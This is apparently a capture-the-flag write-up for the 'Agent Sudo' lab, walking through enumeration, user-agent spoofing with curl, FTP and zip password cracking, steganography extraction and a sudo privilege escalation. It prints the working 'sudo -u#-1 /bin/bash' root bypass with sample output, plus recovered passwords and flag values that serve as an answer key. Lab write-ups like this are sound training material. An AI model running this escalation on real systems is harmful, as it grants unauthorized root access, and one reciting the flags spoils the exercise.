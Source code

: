 # Report on Agent Sudo
![Header](./assets/Header.png)

# Enumiration 
1. The no of ports open -> **3**
we can see the nmap scan report in `nmap.scan`

There is a clue that user agent should be masked to `R`.
Use burpsuite to do so.
![Burpsuite](./assets/user-agent.png)
In the abobe picture we can see that i have changed the useragent to be `R`
we can achieve the same using `curl`
```bash
curl -A "R" -L <Ip address>
`-A` -> masks the user-agent
`-L` -> Follows Redirects
```
2. How you redirect yourself to a secret page? -> **user-agent**

Now we get to know that there are 25 employes and 26 alphebats. 
Lets bruteforce one by one 
```bash
curl -A "C" -L <IP address>
```
The above user returs some secreat..
Its the username.
refer [curl-c.txt](./files/curl-c.txt)

3. What is the agent name? **chris**

# Bruteforce
1. FTP password
A. refer [ftp-bruteforce](./files/ftp-bruteforce.txt)

once am into the FTP, i have seen 3 files, got them to my host and then started ro extracte any hidden files using binwalk.
```bash
binwalk -e <filename>
```
2. Zip file password
Found hidden zip file `8072.zip`.
Its a password protedcted zip file and used john to extract the password
refer [8072.zip](./files/8702-zip-password.txt )

3. Steg password 
And the other file `cute-alien.jpg` -> being a jpg file, there is a prossibility to extracte stegs from the file.
I used `stegseek` to do the same 
```bash
stegseek <filename>
```
![setegseek](./assets/stegseek.png)

[output-file](./files/cute-alien.jpg.out)

```bash
stegseek cute-alien.jpg                                  [ ⚡9ms ] [ 02:26 PM ]
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```
4. Who is the other agent (in full name)?
[output-file](./files/cute-alien.jpg.out)

5. SSH password
`hackerrules!`
[output-file](./files/cute-alien.jpg.out)

# Flag

1. User flag
**b03d975e8c92a7c04146cfa7a5a313c7**

2. What is the incident of the photo called? 
**roswell alien autopsy**

# Privilege escalation

```Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

`# User privilege specification`
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash
the above command will try to execute the /bin/bash using the username of the `-1`
Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
```
1. CVE number for the escalation 
[Exploit-db](https://www.exploit-db.com/exploits/47502)

2. What is the root flag?
**b53a02f55b57d4439e3341834d70c062**

3. (Bonus) Who is Agent R?
**DesKel**
